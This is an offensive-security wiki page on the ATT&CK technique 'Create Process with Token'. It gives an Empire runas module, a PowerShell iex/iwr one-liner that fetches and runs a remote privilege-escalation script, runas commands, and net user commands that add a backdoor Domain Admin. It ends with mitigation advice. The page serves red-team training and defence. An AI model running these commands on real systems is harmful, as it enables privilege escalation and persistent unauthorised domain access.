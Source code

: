 ```yaml
---
description: https://attack.mitre.org/techniques/T1134/002/
---
```


# Create Process with Token

**ATT\&CK ID:** [T1134.002](https://attack.mitre.org/techniques/T1134/002/)

**Permissions Required:** <mark style="color:green;">**User**</mark>

**Description**

Adversaries may create a new process with a different token to escalate privileges and bypass access controls. Processes can be created with the token and resulting security context of another user using features such as `CreateProcessWithTokenW` and `runas`.

Creating processes with a different token may require the credentials of the target user, specific privileges to impersonate that user, or access to the token to be used (ex: gathered via other means such as Token Impersonation/Theft or Make and Impersonate Token).

[\[Source\]](https://attack.mitre.org/techniques/T1134/002/)

## Techniques

### Empire

Passing more complicated arguments to this module can be unreliable. It may be worth creating Batch or `PowerShell` scripts on the target system which contain the desired command to be run and then executing them from this module.

Otherwise, if an interactive foothold has been obtained simply specifying `Powershell.exe` or `cmd.exe` without additional arguments and the record option "ShowWindow" set to "True" will produce a command window over the interactive session.

```
usemodule/powershell/management/runas
```

![](../../../.gitbook/assets/Empire-token.png)

### Get-WinLogonTokenSystem

```powershell
iex(iwr -usebasicparsing "https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/TokenManipulation/Get-WinlogonTokenSystem.ps1");Get-WinLogonTokenSystem
```

![](../../../.gitbook/assets/Get-WinLogonTokenSystem.png)

### Runas

It is not possible to pass the password parameter directly with Runas. The password will be prompted for interactively within the terminal.

```
Runas /user:<Domain>\<Username> powershell.exe
```

![](../../../.gitbook/assets/runas.png)

## Scenario

In the scenario below we are logged onto a domain workstations (WS01). We have obtained credentials for the Domain Administrator.

Using `Runas.exe` we elevate from our standard user account to a command shell as _moe_, the Domain Administrator.

![](../../../.gitbook/assets/whoami-barney.png)

Using the known set of credentials we use runas to spawn `PowerShell` as the Domain Administrator.

```
Runas /user:Security.local\Moe powershell.exe
```

![](../../../.gitbook/assets/whoami-ps.png)

![](<../../../.gitbook/assets/whoami-Moe (1).png>)

Now, with a privilege command shell for the Domain Administrator we can do many things. For example we can create persistence by setting up a new account and promoting the account to a Domain Administrator.

```
net user /add /domain NewAdmin Password123 
net localgroup "Domain Admins" /domain /add NewAdmin
```

## Mitigation

* Limit permissions so that users and user groups cannot create tokens. This setting should be defined for the local system account only. GPO: Computer Configuration > \[Policies] > Windows Settings > Security Settings > Local Policies > User Rights Assignment: Create a token object. Also define who can create a process level token to only the local and network service through GPO: Computer Configuration > \[Policies] > Windows Settings > Security Settings > Local Policies > User Rights Assignment: Replace a process level token.
* Administrators should log in as a standard user but run their tools with administrator privileges using the built-in access token manipulation command `runas`.
* An adversary must already have administrator level access on the local system to make full use of this technique; be sure to restrict users and accounts to the least privileges they require.

## Further Reading

**Runas | Microsoft Docs:** [https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\))

**Invoke-Runas - Empire Module:** [https://www.infosecmatter.com/empire-module-library/?mod=powershell/management/runas](https://www.infosecmatter.com/empire-module-library/?mod=powershell/management/runas)
